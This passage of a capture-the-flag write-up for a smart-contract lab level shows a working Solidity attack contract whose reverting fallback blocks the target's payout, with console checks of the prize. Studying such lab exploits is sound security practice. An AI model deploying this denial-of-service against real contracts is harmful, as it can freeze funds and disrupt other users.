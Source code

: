 ```solidity
  receive() external payable {}
}
```

### Analysis

Within the `receive` function, there is a `transfer` which we can exploit to break to stop the contract from reclaiming kingship on the following line. We will create a malicious smart contract that will (1) send a transaction with a value equal to or greater than the current prize and (2) contains a fallback function that reverts the transaction. This will successfully prevent the declaration of a new king.

Let's determine how much the current prize is, so we know the minimum that we must send.

```js
> fromWei(await contract.prize())
< '0.001'
// This is equivalent to 1000000000000000, which is 1 × 10^15
```

Now we'll create a contract that meets the two requirements outlined above to solve the level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Create new contract
contract KingSolution {
    constructor(address _kingInstance) payable {
      // (1) We will manually set the value in Remix
      // For example '1100000000000000' which is greater than the current prize
         _kingInstance.call{value:msg.value}("");
    }
    // (2) The fallback will immediately revert to prevent the declaration
    fallback() external {
        revert("No new kings!");
    }
}
```

On deployment, we specify both the `value` and `_kingInstance` address.

Let's verify our contract was successful in sending the value by checking how much the current prize is.

```js
> fromWei(await contract.prize())
< '0.0011'
```

The value matches what was entered on deployment. We submit the instance and ... "Well done, You have completed this level!!!"
